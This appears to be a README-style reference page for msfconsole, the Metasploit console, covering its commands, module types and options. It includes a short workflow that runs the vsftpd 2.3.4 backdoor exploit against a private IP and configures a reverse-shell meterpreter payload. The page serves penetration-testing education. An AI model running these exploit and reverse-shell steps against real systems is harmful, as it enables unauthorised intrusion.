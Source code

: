 # msfconsole – Metasploit Framework Console Interface

**msfconsole** is the primary command-line interface to the **Metasploit Framework**, a powerful platform for developing, testing, and executing exploits against remote targets. It provides access to thousands of modules, including exploits, payloads, post-exploitation tools, scanners, and more.

🔗 [Explore msfconsole Usage on SploitHQ](https://sploithq.com/msfconsole)

---

## 🔍 What Is msfconsole?

- Core interface to the Metasploit Framework
- Supports scripting, automation, and interactive shell usage
- Enables launching exploits, creating payloads, and managing sessions
- Ideal for red teaming, pentesting, and vulnerability validation

---

## ⚙️ Basic Usage

```bash
msfconsole
```

Once inside the console, you can search, configure, and run modules interactively.

---

## 🧰 Common Commands

| Command                        | Description                                      |
|-------------------------------|--------------------------------------------------|
| `search <term>`               | Search for exploits, payloads, or modules        |
| `use <module_path>`           | Load a module (e.g., exploit/windows/smb/ms17_010_eternalblue) |
| `info`                        | Show detailed info about a loaded module         |
| `set <option> <value>`        | Set required options (e.g., RHOSTS, PAYLOAD)     |
| `run` or `exploit`            | Launch the exploit                              |
| `sessions`                    | List active sessions                            |
| `background`                  | Background the current session                  |
| `exit`                        | Quit the msfconsole                             |

---

## 🧪 Example Workflow

```bash
msfconsole
```

```text
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
set RPORT 21
run
```

---

## 🔥 Payload Example

Set a reverse shell payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
```

---

## 📦 Module Types

- `exploit/` – Attack modules
- `auxiliary/` – Scanners, fuzzers, etc.
- `payload/` – Shellcode and Meterpreter payloads
- `post/` – Post-exploitation tools
- `encoder/` – Payload obfuscation
- `nop/` – No-operation generators

---

## ⚙️ Useful Options

| Option           | Description                                 |
|------------------|---------------------------------------------|
| `-q`             | Quiet mode (no banner)                      |
| `-r <script.rc>` | Run commands from a resource script         |
| `-x "<cmd>"`     | Execute a single command and exit           |
| `-h`             | Show help                                   |

---

## 🌐 SploitHQ Metasploit Guide

👉 [Launch Your First Exploit with msfconsole](https://sploithq.com/msfconsole)

- Step-by-step exploit examples
- Post-exploitation tips
- Meterpreter and persistence tricks

---

## 🔗 Useful Links

- [Metasploit Framework GitHub](https://github.com/rapid7/metasploit-framework)
- [Metasploit Unleashed (OffSec)](https://www.offensive-security.com/metasploit-unleashed/)
- [SploitHQ msfconsole Page](https://sploithq.com/msfconsole)

---

## 📄 License

Metasploit is open source and maintained by Rapid7 under a BSD-style license.  
This documentation is provided by [SploitHQ](https://sploithq.com) for educational and authorized testing purposes only.
